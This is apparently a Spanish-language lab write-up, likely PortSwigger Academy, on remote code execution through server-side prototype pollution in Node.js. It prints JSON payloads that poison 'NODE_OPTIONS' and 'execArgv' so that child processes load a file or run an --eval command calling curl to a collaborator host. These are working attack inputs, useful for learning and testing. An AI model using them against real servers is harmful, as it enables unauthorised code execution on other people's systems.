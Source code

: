 ```yaml
---
layout: default
title: 9 - Remote code execution via server-side prototype pollution
---
```

La idea es que `Run Maintenance Jobs` es la tipica acción que corre procesos hijo en el contexto de nodejs del lado del servidor.

`NODE_OPTIONS` es una variable de entorno que se añade por defecto a los procesos hijos, por ejemplo si se ejecuta :

```json
{
  "__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--require /tmp/malware.js"
  }
}

```

```bash
child_process.exec('node someScript.js')
```

Entonces se ejecutará :

```bash
node --require /tmp/malware.js someScript.js
```


Primero

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"uD3wbDDo8DTS8blpDI3AZyuPDBTuVrSW",
	"__proto__": {
	    "shell":"node",
	    "NODE_OPTIONS":"--inspect=gp9pkgqpl15c27dydigjw9lrgimca4es3.oastify.com\"\".oastify\"\".com"
	}
}
```

Segundo : 

```json
{
	"csrf":"fLITjmR49w7m80eJ4TWBeXCpr6lGWbtb",
	"sessionId":"uD3wbDDo8DTS8blpDI3AZyuPDBTuVrSW",
	"tasks":[
		"db-cleanup",
		"fs-cleanup"
	]
}
```

Recibimos una DNS en el collaborator.

Si en el servidor no se están especificando argumentos para los hijos como aquí:

```javascript
child_process.fork('worker.js', [], {
  execArgv: ['--inspect']
});
```

Entonces los intentará pillar de object y pondrá nuestro execArgv

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

```bash
child_process.fork('script.js');
```

```bash
node --eval=require('child_process').execSync('curl https://YOUR-ID.oastify.com') script.js
```
